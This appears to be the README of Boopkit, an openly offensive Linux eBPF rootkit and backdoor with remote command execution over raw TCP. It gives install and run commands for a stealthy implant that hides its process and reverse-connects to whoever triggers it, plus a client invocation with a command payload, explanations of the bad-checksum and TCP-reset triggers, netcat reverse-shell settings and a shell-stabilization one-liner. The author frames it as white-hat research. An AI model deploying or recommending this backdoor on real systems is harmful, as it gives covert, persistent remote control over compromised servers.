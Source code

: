 # Boopkit

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

Under active development! 

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.0.5.tar.gz
tar -xzf v1.0.5.tar.gz 
cd boopkit-1.0.5/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background without output

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit &> /dev/null &
```

Boopkit is now running and will automatically try to reverse connect to any source that is booping the server!

## Client Side

Download and build boopkit.

```bash
git clone https://github.com/kris-nova/boopkit.git
cd boopkit
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -x "$RCE"
```

# DPI

  - Option 1: Fuck around with XDP/pcap
  - Option 2: Just use pcap

# Remote Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       {                             data                              }
       {                             ....                              }
       {                             data                              }
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. In theory this would work against a server that has no TCP services listening!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
# Remote values
RHOST="127.0.0.1"
RPORT="22"
# Local values
LHOST="127.0.0.1"
LPORT="3535"
# NetCat Reverse Shell Values
NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang' 
 - 'bpftool'   Required for `libbpf`
 - 'xdp-tools' Required for `libxdp`
 - 'llvm'
 - 'pcap'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
